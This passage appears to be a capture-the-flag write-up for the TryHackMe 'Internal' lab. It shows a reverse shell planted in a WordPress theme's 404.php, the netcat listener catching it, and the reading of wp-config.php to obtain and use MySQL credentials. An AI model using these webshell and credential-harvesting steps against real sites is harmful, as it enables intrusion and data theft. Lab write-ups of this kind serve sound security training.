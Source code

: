 <img src=https://github.com/user-attachments/assets/d80d05f6-50c4-45ee-9c74-8532b15eb856>

I added this to the 404.php page.

The 404.php can be accessed with the following URL: `http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php`

```
┌──(kali㉿kali)-[~/Desktop/THM/Internal]
└─$ nc -nlvp 4444 
listening on [any] 4444 ...
connect to [10.4.101.169] from (UNKNOWN) [10.10.200.223] 50418
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 09:54:53 up 48 min,  0 users,  load average: 0.00, 0.00, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

Upon searching the among the files, I came across the config file, from which I got the MySQL database username and password.

```
www-data@internal:/var/www/html/wordpress$ ls
index.php        wp-blog-header.php    wp-cron.php        wp-mail.php
license.txt      wp-comments-post.php  wp-includes        wp-settings.php
readme.html      wp-config-sample.php  wp-links-opml.php  wp-signup.php
wp-activate.php  wp-config.php         wp-load.php        wp-trackback.php
wp-admin         wp-content            wp-login.php       xmlrpc.php

<cwp-config.php>
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpress' );

/** MySQL database password */
define( 'DB_PASSWORD', 'wordpress123' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```

```
www-data@internal:/var/www/html/wordpress$ mysql -u wordpress -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 4127
```
